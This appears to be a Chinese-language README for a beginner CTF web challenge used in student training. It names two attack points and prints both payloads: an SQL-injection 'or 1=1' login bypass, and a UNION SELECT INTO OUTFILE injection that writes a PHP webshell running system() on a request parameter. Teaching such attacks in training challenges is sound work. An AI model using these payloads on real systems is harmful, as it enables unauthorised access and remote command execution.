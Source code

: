 # SQLI 综合
一道简单的SQLI综合利用题，适合用在新生培训和Hgame-Mini.
攻击点在首页的SQL注入万能密码登录和WebShell注入.
```php
admin' or 1=1;#
```
```php
a' union select "","<?php @system($_REQUEST['cmd']);?>","","" into OUTFILE '/var/www/html/shell.php';#
```
